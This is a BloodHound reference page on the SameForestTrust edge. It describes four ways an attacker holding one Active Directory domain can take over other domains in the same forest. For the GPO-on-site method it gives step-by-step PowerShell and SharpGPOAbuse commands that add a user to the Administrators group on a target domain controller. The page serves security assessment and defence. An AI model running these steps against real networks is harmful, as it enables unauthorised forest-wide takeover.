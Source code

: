 ---
title: SameForestTrust
description: The SameForestTrust edge represents a trust relationship between two domains within the same AD forest. 
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

In this relationship, the source node domain has a same-forest (intraforest) trust to the destination node domain, allowing principals (users and computers) from the destination domain to access resources in the source domain.

Because the domains are part of the same forest, they inherently trust each other, granting implicit control over resources across domains.

## Abuse Info

An attacker with control over any domain within the forest can escalate their privileges to compromise other domains through multiple methods.

### **Spoof SID history**

An attacker can spoof the SID history of a principal in the target domain, tricking the target domain into treating the attacker as a privileged user.

See the [SpoofSIDHistory](/resources/edges/spoof-sid-histroy) edge for more information.

This attack fails if SID filtering (quarantine) is enabled on the trust relationship in the opposite direction of the attack. The SID filtering blocks SIDs belonging to any other domain than the attacker-controlled domain. However, enabling this setting is rare and generally not recommended.

### **Coerce to TGT**

An attacker can coerce a privileged computer (e.g., a DC) in the target domain to authenticate to an attacker-controlled computer configured with unconstrained delegation. This provides the attacker with a Kerberos TGT for the coerced computer.

See the [CoerceToTGT](/resources/edges/coerce-to-tgt) edge for more information.

The attack fails if SID filtering (quarantine) is enabled, as this prevents TGTs from being sent across the trust boundary. Again, this setting is rarely configured.

### **ADCS ESC5**

The Configuration Naming Context (NC) is a forest-wide partition writable by any DC within the forest. Most Active Directory Certificate Services (ADCS) configurations are stored in the Configuration NC. An attacker can abuse a DC to modify ADCS configurations to enable an ADCS domain escalation opportunity that compromises the entire forest.

**Attack Steps:**

1. Obtain a SYSTEM session on a DC in the attacker-controlled domain
2. Create a certificate template allowing ESC1 abuse
3. Publish the certificate template to an enterprise CA
4. Enroll the certificate as a privileged user in the target domain
5. Authenticate as the privileged user in the target domain using the certificate

See this blog post for further details: [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c).

If ADCS is not installed: An attacker can install ADCS and exploit it, as detailed in the blog post: [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/).

### **GPO linked on Site**

AD sites are stored in the forest-wide Configuration NC partition, writable by any DC within the forest. An attacker with SYSTEM access to a DC can link a malicious GPO to the site of any DC in the forest.

**Step 1: Obtain a SYSTEM session on a DC in the attacker-controlled domain**
Use PsExec to start a PowerShell terminal as SYSTEM on the DC:

```powershell
PsExec64.exe -s -i -accepteula powershell
```

**Step 2: Create a GPO**
Use the GroupPolicy module of RSAT to create the new GPO:

```powershell
New-GPO -Name "MyGPO"
```

**Step 3: Add the compromising setting to the GPO**
Use SharpGPOAbuse to add a scheduled task:

```powershell
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "MyTask" --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" --Arguments "/c net localgroup Administrators /Add DUMPSTER\tim" --GPOName "MyGPO"
```

**Step 4: Identify a target DC and its site**
Use the ActiveDirectory module of RSAT to query for DCs in the target domain:

```powershell
Get-ADDomainController -server bastion.local | select Name,Site
```

Look up the site DistinguishedName:

```powershell
Get-ADReplicationSite Default-First-Site-Name | select DistinguishedName
```

**Step 5: Set the GPO permissions**

This step is important to avoid applying the GPO to all computers connected to the site. Use the GroupPolicy module of RSAT to modify the permissions such that Authenticated Users can read the object but only the targeted computer applies the GPO settings:

```powershell
$GPO = Get-GPO -Name "MyGPO"
$GPO | Set-GPPermissions -PermissionLevel GpoRead -TargetName "Authenticated Users" -TargetType Group -Replace
$GPO | Set-GPPermissions -PermissionLevel GpoApply -TargetName "BASTION\\bldc01" -TargetType Computer
```

**Step 6: Link the GPO to the site**
Use the GroupPolicy module of RSAT to link the GPO to the site:

```powershell
New-GPLink -Name "MyGPO" -Target "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=bastion,DC=local" -Server dc01.dumpster.fire
```

Note that you must specify the server to be the DC where you are running the command, as the command defaults to execute the change on a root domain DC where the compromised DC does not have the permissions to link the GPO.

Wait until replication has happened and the GPO has applied on the target DC, and log in with Administrators access on the compromised DC. Replication within the same site happens within 15 seconds but runs on 3 hour schedule by default across sites. GPOs are applied on a 90-120 min interval by default.

## Opsec Considerations

There is no OPSEC associated with this edge.

## Edge Schema

Source: [Domain](/resources/nodes/domain)   
Destination: [Domain](/resources/nodes/domain)   
Traversable: **Yes**  

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1134.005: Access Token Manipulation: SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)
* [T1187: Forced Authentication](https://attack.mitre.org/techniques/T1187/)
* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
* [T1558: Steal or Forge Kerberos Tickets](https://attack.mitre.org/techniques/T1558/)
* [T1550.003: Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
* [T1484.001: Domain or Tenant Policy Modification: Group Policy Modification](https://attack.mitre.org/techniques/T1484/001/)

Abuse info references:

* [Microsoft AD Trust Technical Documentation](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc755321(v=ws.10))
* [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)
* [Escalating from child domain’s admins to enterprise admins in 5 minutes by abusing AD CS, a follow up](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/)
* [SID filter as security boundary between domains? (Part 4)](https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)
* [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
